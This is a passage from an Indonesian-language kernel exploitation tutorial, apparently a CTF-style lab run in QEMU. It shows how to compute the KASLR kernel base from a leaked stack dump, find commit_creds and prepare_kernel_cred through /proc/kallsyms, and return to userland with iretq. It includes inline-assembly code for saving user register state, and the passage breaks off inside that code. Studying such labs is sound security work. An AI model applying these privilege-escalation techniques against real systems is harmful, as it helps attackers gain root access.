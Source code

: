 ```
38: 0xffffffff8100a157
39: 0x0000000000000000
40: 0x0000000000000000
41: 0xffffffff8120008c
42: 0x0000000000000001
43: 0x00000000004ad868
44: 0x00007fffb0d16298
45: 0x00007fffb0d16288
46: 0x00007fffb0d16160
47: 0x0000000000000001
48: 0x0000000000000246
49: 0x0000000000000000


```
simplenya semperti ini 0xffffffff8100a157 - 0xa157 = 0xffffffff81000000 (kernel base) karena Pengacakan alamat kernel dilakukan pada tingkat tabel halaman dan diimplementasikan dengan fungsi kaslr.c. Kernel mencadangkan 1GB ruang alamat dari 0xffffffff80000000 hingga 0xffffffffc0000000. Oleh karena itu, meskipun KASLR diaktifkan, hanya alamat dasar 0x3f0 dari 0x810 hingga 0xc00 yang dihasilkan.kernel_randomize_memory. dan fungsi kernel ini sebenarnya mengeluarkan 3 register dari stack, yaitu rbx, r12, rbp dan bukan hanya rbp. Oleh karena itu, kita harus meletakkan 3 nilai sampah setelah cookie. Kemudian nilai berikutnya akan menjadi alamat pengembalian yang kita inginkan agar program kita kembali, yang merupakan fungsi yang akan kita buat untuk userland mencapai hak akses root.

selanjutnya, kita harus mengetahui offset commit_creds dan prepare_kernel_creds didalam qemu, jalankan ./run.sh dan ini ketikkan ini: 

```
cat /proc/kallsyms | grep commit_creds
ffffffff814c6410 T commit_creds

cat /proc/kallsyms | grep prepare_kernel_cred
ffffffff814c67f0 T prepare_kernel_cred
```

Dalam kondisi eksploitasi saat ini, jika Anda hanya kembali ke userland dengan kode untuk membuka shell, Anda akan kecewa. Alasannya adalah karena setelah menjalankan kode tersebut, kita masih berada dalam mode kernel. Untuk membuka shell root, kita harus kembali ke mode pengguna.

Biasanya, kernel akan kembali ke userland menggunakan salah satu dari instruksi berikut (dalam x86_64): sysretq atau iretq. Cara yang umum digunakan adalah melalui iretq, karena sysretq lebih rumit untuk dilakukan dengan benar. Instruksi iretq hanya membutuhkan tumpukan disiapkan dengan 5 nilai register userland dalam urutan ini: RIP|CS|RFLAGS|SP|SS.

Proses melacak dua set nilai berbeda untuk register-register ini, satu untuk mode pengguna dan satu untuk mode kernel. Oleh karena itu, setelah selesai mengeksekusi dalam mode kernel, proses harus kembali ke nilai-nilai register mode pengguna. Untuk RIP, kita cukup mengatur ini ke alamat fungsi yang memunculkan shell. Namun, untuk register-register lainnya, jika kita hanya mengaturnya ke nilai acak, proses mungkin tidak melanjutkan eksekusi seperti yang diharapkan. Untuk mengatasi masalah ini, orang-orang telah menemukan cara pintar: simpan status register-register ini sebelum masuk ke mode kernel, lalu muat ulang setelah memperoleh hak akses root. Fungsi untuk menyimpan statusnya adalah sebagai berikut::

```
void save_state()
{
	__asm__ volatile(
	 ".intel_syntax noprefix;"
	 "mov user_cs, cs;"
	 "mov user_ss, ss;"
	 "mov user_rsp, rsp;"
	 "pushf;"
	 "pop user_rflags;"
	 ".att_syntax;"
	);
	printf("menyimpan status userland\n");
```